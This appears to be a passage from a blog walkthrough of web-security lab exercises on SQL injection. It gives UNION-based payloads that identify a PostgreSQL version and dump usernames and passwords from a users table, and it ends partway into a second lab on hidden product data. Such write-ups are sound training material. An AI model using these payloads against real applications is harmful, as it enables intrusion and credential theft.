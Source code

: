 ![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/S1w5S8Ls2.png)

#### Retrieve data in a database

Check which language the database is in.

I have tried with common payloads that print the version of SQL. then only PostgreSQL returns results.
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/HklKIILsn.png)

Payload: `/filter?category=Gifts' union select  null, version() --`

Result:
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/S1Y1DU8in.png)

Okay, now we know the original query has only one column of string data type and the database is PostgreSQL 12.15. I will be looking for payload to concatenate strings in this database.

I refer here.
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/H1HIwU8oh.png)

Final payload:
```js
/filter?category=Gifts' union select null,username||'~'||password from users--
```

Result:
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/rkMpOLLoh.png)


Login with adminstrator and get solved.

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/BJwgFUIj2.png)

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
### Lab Description
This practical exercise contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application executes the following SQL query:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve this exercise, perform a SQL injection attack that makes the application display one or more unreleased products.

In order to carry out the SQL injection attack, you can manipulate the input parameter in the category filter to modify the query behavior. 

### Solution
Home page:

